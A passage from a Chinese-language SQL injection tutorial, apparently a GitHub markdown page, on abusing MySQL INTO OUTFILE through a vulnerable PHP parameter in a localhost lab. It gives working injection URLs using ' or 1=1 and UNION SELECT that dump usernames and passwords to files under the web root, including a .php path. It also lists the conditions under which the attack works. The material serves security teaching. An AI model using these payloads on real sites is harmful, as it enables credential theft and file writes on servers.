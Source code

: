 + 能访问的目录要有可写的权限，否则导出失败

+ 确保磁盘有足够的空间导出

+ 确保要已经存在相同的文件名

user.php文件的查询语句，按照into outfile的标准格式，注入成下面的语句就能导入我们需要的信息:

```
select * from article where articleid='$id' into outfile '/var/www/file.txt'
````

```
http://localhost/injection/show.php?id=1' into outfile '/var/www/file.txt
```

由于代码本身就有where来指定一个条件，所以导出的数据仅仅是满足这个条件的数据，如果想导出全部，只要使这个where条件为假，并且指定一个成真的条件，就可以不用被束缚在where里了：

```
http://localhost/injection/show.php?id=' or 1=1 into outfile '/var/www/file.txt
```

实际的SQL语句为:
```
select * from article where articleid='' or 1=1 into outfile '/var/www/file.txt'
```

这样username的参数是空的，即为假，1=1永远是真，那or前面的where就不起作用了。
跨表的导出文件语句该如何构造，还是用到UNION联合查询，所以一切前提条件都应该和UNION，导出数据一样，跨表导出数据正常情况下:

```
select * from article where articleid='$id' union select 1,username,password from user into outfile '/var/www/file.txt'
```

```
http://localhost/injection/show.php?id=1' union select 1,username,pssword from user into outfile '/var/www/download.txt
```

这样导出来的文件有一个问题，由于前面查询的id=1为真，所以导出的数据也就是一部分。
所以应该使前面的查询语句为假，才能只导出后面查询的内容:

```
http://localhost/injection/show.php?id=' union select 1,username,password from user into outfile '/var/www/download.php
```

值得注意的是想要导出文件，必须magic_quotes_gpc没有打开，并且程序没有用到addslashes()函数，还有不能对单引号过滤，因为在提交到处路径的时候，一定要用引号包裹起立，否则，系统不会认识那是一个路径。


**INSERT**

MySQL中除了SELECT外，还有INSERT和UPDATE危害更大的操作。

```
CREATEA TABLE 'user' (
	'userid' INT NOT NULL AUTO_INCREMENT,
	'username' VARCHAR(20) NOT NULL,
	'password' VARCHAR(20) NOT NULL,
	'homepage' VARCHAR(255) NOT NULL,
	'userlevel' INT DEFAULT '1' NOT NULL,
	PRIMARY KEY('userid')
);
```
